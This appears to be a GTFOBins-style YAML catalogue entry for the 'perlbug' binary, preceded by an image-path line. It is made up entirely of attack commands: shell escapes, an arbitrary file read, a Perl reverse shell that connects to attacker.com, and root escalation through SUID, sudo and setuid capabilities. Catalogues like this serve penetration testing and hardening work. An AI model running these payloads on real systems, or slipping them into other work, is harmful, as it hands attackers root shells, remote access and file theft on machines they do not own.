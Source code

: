 ```yaml
---
functions:
  shell:
    - code: perlbug -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perlbug -ne print $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perlbug -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perlbug -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perlbug -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perlbug -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

